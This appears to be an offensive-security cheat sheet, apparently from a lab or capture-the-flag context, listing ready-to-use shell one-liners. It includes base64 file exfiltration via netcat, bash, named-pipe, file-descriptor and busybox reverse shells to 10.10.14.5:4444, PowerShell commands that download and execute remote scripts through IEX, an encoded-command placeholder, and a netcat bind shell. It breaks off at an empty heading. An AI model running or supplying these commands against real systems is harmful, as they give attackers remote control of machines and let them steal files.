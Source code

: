 ```bash
base64 -w 0 file | nc $IP 4444
```

## Establish bash reverse shell to attacker

```bash
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1
```

## Establish bash reverse shell using named pipe

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.5 4444 > /tmp/f
```

## Establish bash reverse shell using file descriptor

```bash
0<&196;exec 196<>/dev/tcp/10.10.14.5/4444; sh <&196 >&196 2>&196
```

## Establish busybox reverse shell

```bash
busybox nc 10.10.14.5 4444 -e sh
```

## Download and execute Nishang PowerShell reverse shell

```powershell
powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 4444"
```

## Execute base64 encoded PowerShell command

```powershell
powershell -EncodedCommand BASE64_ENCODED_COMMAND_HERE
```

## Download and execute PowerShell script using IWR

```powershell
powershell -c "IWR -UseBasicParsing http://10.10.14.5/shell.ps1|IEX"
```

## Create Linux bind shell with netcat

```bash
nc -nlvp 4444 -e /bin/bash
```

## Create Linux bind shell without netcat -e flag
